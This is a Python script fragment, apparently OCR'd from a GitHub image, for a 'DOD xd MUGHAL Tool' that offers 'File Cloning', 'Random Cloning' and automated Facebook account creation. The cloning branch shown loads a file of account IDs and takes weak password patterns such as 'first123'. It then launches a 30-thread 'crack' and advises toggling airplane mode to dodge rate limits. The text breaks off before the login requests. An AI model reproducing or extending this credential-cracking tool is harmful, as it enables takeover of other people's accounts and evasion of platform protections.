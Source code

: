 	pcp=[]
	id=[]
	tokenku=[]
	
	def menu():
	            clear()
	        #    linex()
	            print('   \33[37;42m\t Welcome DOD xd MUGHAL Tool\33[0;m');linex()
	            print(' \033[1;32m[\033[1;37m1\033[1;32m] \033[1;37mFile Cloning ')
	            print(' \033[1;32m[\033[1;37m2\033[1;32m] \033[1;37mRandom Cloning ')
	            print(' \033[1;32m[\033[1;37m3\033[1;32m] \033[1;37mCreate Auto fb')
	            print(' \033[1;32m[\033[1;37m4\033[1;32m] \033[1;37mAuto Create Fb ')
	          
	            print(' \033[1;32m[\033[1;37m5\033[1;32m] \033[1;37mWhatsApp Group')
	   
	            print(' \033[1;32m[\033[1;37m0\033[1;32m] \033[1;37mEXIT ')
	            linex()
	            xd=input(' \033[1;32m[\033[1;37m+\033[1;32m] \033[1;37mChose : ')
	            if xd in ['1','01']:
	                clear()
	                print(' \033[1;32m[\033[1;37m+\033[1;32m] \033[1;37mPut file example:  /sdcard/File.txt  etc..')
	                linex()
	                file = input(' \033[1;32m[\033[1;37m+\033[1;32m] \033[1;37mPut file path\033[1;37m: ')
	                try:
	                    fo = open(file,'r').read().splitlines()
	                except FileNotFoundError:
	                    print(' File location not found ')
	                    time.sleep(1)
	                    menu()
	                clear()
	                print(' All method working ')
	                linex()
	                print(' \033[1;32m[\033[1;37m1\033[1;32m] \033[1;37mMethod \n \033[1;32m[\033[1;37m2\033[1;32m] \033[1;37mMethod      ')
	                linex()
	                mthd=input(' \033[1;32m[\033[1;37m+\033[1;32m] \033[1;37mChoose: ')
	                linex()
	                plist = []
	                try:
	                    ps_limit = int(input(' \033[1;32m[\033[1;37m+\033[1;32m] \033[1;37mHow many passwords do you want to add ? '))
	                except:
	                    ps_limit =1
	                clear()
	                print(' \033[1;32m[\033[1;37m+\033[1;32m] \033[1;37mexp: first last,firtslast,first123')
	                linex()
	                for i in range(ps_limit):
	                    plist.append(input(f' \033[1;32m[\033[1;37m+\033[1;32m] \033[1;37mPut password {i+1}: '))
	                clear()
	                print(' \033[1;32m[\033[1;37m+\033[1;32m] \033[1;37mDo you went show cp account? (y/n): ')
	                linex()
	                cx=input(' \033[1;32m[\033[1;37m+\033[1;32m] \033[1;37mChoose: ')
	                if cx in ['y','Y','yes','Yes','1']:
	                    pcp.append('y')
	                else:
	                    pcp.append('n')
	                with tred(max_workers=30) as crack_submit:
	                    clear()
	                    total_ids = str(len(fo))
	                    print(' \033[1;32m[\033[1;37m+\033[1;32m] \033[1;37mTotal id : \033[1;32m'+total_ids+f' ')
	                    print(" \033[1;32m[\033[1;37m+\033[1;32m] \033[1;37mDOD Crack Has Been Running \n \033[1;32m[\033[1;37m+\033[1;32m] \033[1;37mUse Airplane mode after 2 minutes ")
	                    linex()